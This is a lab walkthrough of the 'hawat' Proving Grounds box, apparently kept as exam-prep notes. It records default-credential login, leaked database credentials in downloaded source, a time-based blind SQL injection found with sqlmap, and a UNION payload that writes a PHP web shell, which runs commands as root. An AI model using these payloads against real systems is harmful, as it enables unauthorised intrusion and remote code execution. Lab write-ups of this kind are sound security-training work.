 ![[Pasted image 20250113213512.png]]
#### contact page
![[Pasted image 20250113220108.png]]
upon submission
![[Pasted image 20250113220134.png]]
testing for `XSS` with `<h1>offsec</h1>`
![[Pasted image 20250113220336.png]]
illegal
![[Pasted image 20250113220348.png]]changed the placeholders all to `text variables` to try the same payload and no luck
![[Pasted image 20250113220638.png]]

#### /cloud
starting page
![[Pasted image 20250113234217.png]]
able to login as `admin:admin` - always try default credentials
- default page of `admin:admin` has a `issuetracker.zip`
![[Pasted image 20250113234241.png]]
download the `issuetracker.zip`
![[Pasted image 20250113234356.png]]downloaded
![[Pasted image 20250113234514.png]]
after `unzipping` and navigating to this path we find something interesting
```bash
┌──(root💀gobots)-[14Jan2025 04:49:10]-[/home/…/com/issue/tracker/issues]
└─# pwd          
/home/kali/SUT/OSWA/proving_grounds/hawat/issuetracker/src/main/java/com/issue/tracker/issues
```
`IssueController.java`
![[Pasted image 20250113235258.png]]
we see that there is an `SQL Login` of `issue_user:ManagementInsideOld797` and a potential `SQL Injection` at `priority`
![[Pasted image 20250113235431.png]]
we notice that the `Issue Tracker` is at `17445`
- WE ALSO GET A NEW ENDPOINT AT `/ISSUE/checkByPriority`
![[Pasted image 20250113235540.png]]
if navigating to this endpoint we get a `405` error
![[Pasted image 20250114000019.png]]
but when looking in `BURPSUITE` we can see that only `POST` requests are allowed
![[Pasted image 20250114000108.png]]sending to repeater and changing to `POST` to test
![[Pasted image 20250114000141.png]]
once changed and sent we still get a `400` error
![[Pasted image 20250114000227.png]]
now that we have a `POST` request we are going to `SQLMAP` - this doesn't work, we have to use the `SOURCECODE` from earlier and add the `priority=` parameter

```http
POST /issue/checkByPriority?priority=testing HTTP/1.1                                                                                                                                   
Host: hawat:17445
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=0801DB6032AD6C72FA2F0EC488F44DDE
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
`SQLmap` command
```bash
┌──(root💀gobots)-[14Jan2025 05:16:16]-[/home/…/SUT/OSWA/proving_grounds/hawat]
└─# sqlmap -r 17445_issue_checkByPriority_POST.txt --batch --risk=1 --level=3 --flush-session
[05:14:34] [INFO] GET parameter 'priority' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (3) and risk (1) values? [Y/n] Y
[05:14:34] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[05:14:34] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[05:14:44] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[05:14:55] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[05:15:04] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[05:15:13] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[05:15:23] [INFO] checking if the injection point on GET parameter 'priority' is a false positive
GET parameter 'priority' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 884 HTTP(s) requests:
---
Parameter: priority (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: priority=testing' AND (SELECT 2200 FROM (SELECT(SLEEP(5)))OboM)-- HvDP
---

```
vulnerable to `time-based blind`
![[Pasted image 20250114001719.png]]
`SQLmap` is failing to get a shell with `--os-shell` going to have to do it manually
```bash
┌──(root💀gobots)-[14Jan2025 05:21:16]-[/home/…/SUT/OSWA/proving_grounds/hawat]
└─# sqlmap -r 17445_issue_checkByPriority_POST.txt --os-shell
```
![[Pasted image 20250114002241.png]]
starting manually - starting payload
```bash
' AND (SELECT 2200 FROM (SELECT(SLEEP(5)))OboM)-- HvDP
```
in order to get this payload to work, have to `URL-ENCODE` with `CTRL+U`
![[Pasted image 20250114002516.png]]
was able to get a `web shell` with this payload
```sql
' union select '<?php system($_GET["cmd"]); ?>' into outfile '/srv/http/shell.php' -- -
```
but i had to `URL ENCODE` it with `DECODER`
![[Pasted image 20250114005033.png]]once `ENCODED`, through it in and got a 200 error
![[Pasted image 20250114005102.png]]
navigated to `http://hawat:30455/shell.php?cmd=whoami` and was root
![[Pasted image 20250114005120.png]]
now to get a reverse shell from web shell

`PWD`
![[Pasted image 20250114005156.png]]
`proof.txt`
3cc54d8953b405f767295eecdd0177a9
![[Pasted image 20250114005348.png]]
